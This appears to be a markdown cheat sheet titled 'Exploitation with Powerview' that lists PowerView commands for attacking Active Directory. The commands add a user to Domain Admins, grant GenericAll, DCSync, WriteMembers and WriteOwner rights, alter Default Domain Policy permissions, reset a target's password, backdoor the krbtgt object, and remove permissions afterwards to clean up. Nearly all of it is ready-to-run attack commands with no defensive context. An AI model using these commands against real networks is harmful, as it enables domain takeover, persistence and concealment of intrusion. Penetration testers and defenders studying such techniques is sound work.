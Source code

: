 # Exploitation with Powerview

### Examples:

1) Add a user to the Domain Admins Group (Generic Write/Generic All privileges on the DA Group)

        Add-DomainGroupMember -Identity 'Domain Admins' -Members 'USER' -Credential $Cred

2) Add permissions to a user (Write permissions)

        Add-ObjectAcl -TargetIdentity <target_username> -PrincipalIdentity <attacker_username> -Rights WriteProperty

3) Add GenericAll Permissions (Full Control)

        Add-ObjectAcl -TargetIdentity <target_username> -PrincipalIdentity <attacker_username> -Rights GenericAll

4) Add Permissions for DCSync (Replicating Directory Changes)

        Add-ObjectAcl -TargetIdentity "DC=example,DC=com" -PrincipalIdentity <attacker_username> -Rights DCSync

5) Grant Permissions on Group Membership

        Add-ObjectAcl -TargetIdentity "Domain Admins" -PrincipalIdentity <attacker_username> -Rights WriteMembers

Once granted, you can add yourself to the group using Add-DomainGroupMember

6) Modify GPO permissions

        Add-ObjectAcl -TargetIdentity "Default Domain Policy" -PrincipalIdentity <attacker_username> -Rights WriteProperty

7) Abuse WriteOwner permissions (Grant yourself the WriteOwner permission)

If you grant yourself the WriteOwner permission, you can change the owner of an object (e.g., a user or group) to yourself and escalate privileges.

        Add-ObjectAcl -TargetIdentity <target_username> -PrincipalIdentity <attacker_username> -Rights WriteOwner

8) Modify passwords for persistence and privilege escalation

        $UserPassword = ConvertTo-SecureString "NewP@ssw0rd" -AsPlainText -Force

        Set-DomainUserPassword -Identity <target_username> -AccountPassword $UserPassword -Domain DOMAIN.LOCAL -Verbose

10) Backdoor an Object via ACLs

You can add backdoor permissions (e.g., GenericAll) on critical objects like Domain Admins or krbtgt.

        Add-ObjectAcl -TargetIdentity "krbtgt" -PrincipalIdentity <attacker_username> -Rights GenericAll

10) Remove Permissions (Cleanup)

        Remove-ObjectAcl -TargetIdentity <target_object> -PrincipalIdentity <attacker_username> -Rights <specific_right>
